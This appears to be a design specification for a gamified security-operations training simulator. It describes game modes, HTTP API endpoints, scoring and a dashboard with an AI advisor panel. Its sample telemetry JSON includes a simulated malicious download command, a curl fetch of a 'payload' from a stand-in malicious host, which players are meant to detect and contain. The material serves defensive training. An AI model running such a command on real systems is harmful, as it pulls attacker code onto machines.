

# Cyber-AI Game (SOC-Simulator) Design Specification

This document details the mechanics, API specifications, and interface layouts for the **PhoenixOS Cyber-AI Game**. This layer gamifies the security operations center (SOC) workflow, visualizes telemetry graphs, and integrates an AI advisor panel.

---

## 1. Game Concept: SOC-Simulator / Cyber-Training-Lab

The game operates on top of the live PhoenixOS telemetry stream, translating process lifecycles and Warden actuation events into a training simulation. The player assumes the role of a **SOC Engineer / Security Officer**, defending the system against simulated attacks with the aid of **PhoenixMind** (the local AI advisor).

### 1.1 Game Modes
1. **Training Mode (Interactive Tutorial)**
   - Guided steps instructing the player on how to interpret Kalman telemetry drift scores ($S_D$) and Sliding Window confidence scores ($S_{TCS}$).
   - Teaches how to configure Warden actuation gating thresholds (e.g. denying actions if confidence falls below $0.85$).
2. **Challenge Mode (Attack Scenarios)**
   - Simulated attack sequences are injected into the telemetry stream:
     - **SSH Brute-Force:** High rate of failed authentication logs.
     - **Malware Download & Execution:** Unrecognized binary executing and opening a network socket.
     - **Privilege Escalation:** Child process spawn under `sudo` carrying anomalous command execution entropy.
   - The player must analyze the process-DAG, isolate compromised nodes, and update Warden rules to successfully contain the threat.
3. **SOC-Simulation Mode**
   - Multi-node environments showing correlated events across processes. The player reconstructs the attack chain by inspecting process lineage.

---

## 2. System Architecture



---

## 3. Game Backend API Specifications

The game backend is exposed as a lightweight HTTP server in `phoenix_os/game/game_server.go`:

### 3.1 `GET /events`
- **Description:** Returns the complete list of loaded telemetry events for the current scenario.
- **Response Format:**
  ```json
  [
    {
      "seq_id": 100,
      "wall_time": 1716422400,
      "source": "phoenix.guard",
      "event_type": "process.start",
      "severity": 0.2,
      "payload": {
        "pid": 4012,
        "name": "curl",
        "cmdline": "curl -s http://malicious-site.com/payload"
      }
    }
  ]
  ```

### 3.2 `GET /graph`
- **Description:** Queries the SQLite trace database to reconstruct the process execution tree. Returns a nodes-and-edges list directly consumable by Vis.js.
- **Response Format:**
  ```json
  {
    "nodes": [
      { "id": "4012", "label": "curl (PID: 4012)", "group": "suspicious", "title": "curl -s http://malicious-site.com/payload" },
      { "id": "1", "label": "systemd (PID: 1)", "group": "normal" }
    ],
    "edges": [
      { "from": "1", "to": "4012", "arrows": "to" }
    ]
  }
  ```

### 3.3 `POST /warden/policy`
- **Description:** Directs the Warden state machine to execute manual containment or override safety thresholds.
- **Payload Format:**
  ```json
  {
    "target_state": "CONTAINED",
    "actuation_class": 3,
    "confidence_override": 0.95
  }
  ```

### 3.4 `GET /game/score`
- **Description:** Retrieves the current game scoring status, level, multiplier, and earned badges.
- **Response Format:**
  ```json
  {
    "score": 1250,
    "level": "Warden Guardian",
    "multiplier": 1.2,
    "badges": ["Determinism-Master", "Fast-Path-Defender"],
    "completed_challenges": ["ssh-brute-force"]
  }
  ```

---

## 4. Gamification & Scoring Mechanics

Points are tracked and calculated in `phoenix_os/game/scoring.go`:

| Action | Points | Penalty | Rationale |
|---|---|---|---|
| **Contain Malware Process** | +500 pts | - | Successfully escalating to `CONTAINED` / isolating PID. |
| **Hysteresis Violation** | - | -100 pts | Triggering de-escalation actions during a cooldown lock. |
| **Low-Confidence Actuation** | - | -200 pts | Attempting a class 4+ containment when $S_{TCS} < 0.85$. |
| **Trace Replay Checkpoint** | +100 pts | - | Successfully running a deterministic trace checkpoint. |
| **AI Advisor Prompt** | - | -50 pts | Utilizing a hint from the PhoenixMind panel. |

---

## 5. UI/UX Design: Interactive SOC Panel

A dark-themed dashboard divided into three functional columns:

1. **Left Panel: Control & Replay Timeline**
   - **Scenario Selection:** Toggle between Training, SSH Attack, and Malware Intrusion.
   - **Replay Scrubbing Slider:** Scrub through logical ticks ($1$ to $MaxTick$). Adjusting the slider rewinds the system state, dynamically updating the process DAG and ledger timeline.
   - **Warden Panel:** Displays current FSM state (`NORMAL`, `SUSPICIOUS`, `CONTAINED`, `RECOVERY`). Contains action buttons to trigger local process isolation.
2. **Center Panel: Process-DAG Graph Canvas**
   - Implemented via `vis-network`. Nodes represent OS processes; edges represent parent-child execution lineages.
   - Nodes are color-coded:
     - **Green:** Validated system daemons (low entropy).
     - **Orange ($S_D > 6.0$):** High-entropy telemetry anomaly.
     - **Red ($S_D > 7.9$):** Active threat vector (automatically triggering Warden containment if authorized).
3. **Right Panel: PhoenixMind AI Advisory & Logs**
   - **PhoenixMind Advice:** Natural language chat interface. Analyzes the selected event/node and generates explanations (e.g., *"This process spawned an interactive shell on an ephemeral network socket. Recommended action: Class 3 Local Isolate"*).
   - **Deterministic Ledger Feed:** A chronological feed of cryptographically hashed evidence blocks. Clicking a hash shows its canonical JSON payload.
